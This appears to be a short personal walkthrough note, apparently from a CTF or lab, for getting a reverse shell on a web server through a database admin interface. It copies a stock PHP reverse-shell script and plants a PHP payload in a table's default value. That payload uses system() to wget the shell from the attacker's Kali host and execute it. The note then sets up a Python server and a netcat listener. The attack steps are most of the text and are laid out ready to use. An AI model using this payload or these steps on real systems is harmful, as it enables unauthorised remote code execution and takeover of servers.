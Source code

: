 Video Walkthrough
https://www.youtube.com/watch?v=mHsMCfg_KQw
#### reverse shell
![[Pasted image 20220616154248.png]]
```bash - kali
cp /usr/share/webshells/php/php-reverse-shell.php ./Shelly.txt
```
edit file to host and ip.
Create a new Database poc.php
![[Pasted image 20220616154302.png]]
![[Pasted image 20220616154309.png]]
Create a new table:
![[Pasted image 20220616154316.png]]
Paste the following php code in the "Default Value" textbox.
```bash - kali
<?php system("wget $KALI:80/Shelly.txt -O /tmp/Shelly.php; php /tmp/Shelly.php"); ?>
```
![[Pasted image 20220616154329.png]]
Below, we can see our table was created in `/usr/local/databases/poc.php`
![[Pasted image 20220616154824.png]]
Now we set up our python server.
![[Python#Server]]
set up your netcat listener
![[1._rlwrap]]
![[Pasted image 20220406203648.png]]